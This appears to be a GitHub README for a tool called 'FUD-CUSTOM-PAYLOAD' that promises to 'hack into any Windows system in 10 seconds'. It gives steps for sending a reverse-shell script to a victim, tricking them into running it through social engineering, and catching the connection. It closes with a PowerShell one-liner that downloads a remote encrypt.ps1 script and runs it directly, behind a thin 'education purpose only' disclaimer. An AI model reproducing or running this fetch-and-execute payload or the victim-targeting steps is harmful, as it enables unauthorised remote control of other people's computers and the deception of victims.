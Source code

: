 # FUD-CUSTOM-PAYLOAD
HACK INTO ANY WINDOWS SYSTEM IN 10 SECONDS
STEPS:
1) Download My custom Script & add your LHOST and LPORT. Send it to the Victim.
2) Download ShadowShark and start the listener with same LHOST and LPORT.
3) By social engineering tricks the victim to execute the file.
4) If the victim Ececute the file you will get the reverse shell connection
5) Now you get full ACCESS to the Windows machine.
 
 
 Education purpose only..
 
 Education, freedom and knowledge.
 These are the pillars for higher learning, 
 but have often been used to describe some open source projects 
 and services that have the potential to be abused by those that are not so innocent.


 
powershell start powershell -A 'Invoke-Expression (Invoke-WebRequest -Uri https://raw.githubusercontent.com/gamkers/FUD-CUSTOM-PAYLOAD/main/encrypt.ps1).Content'
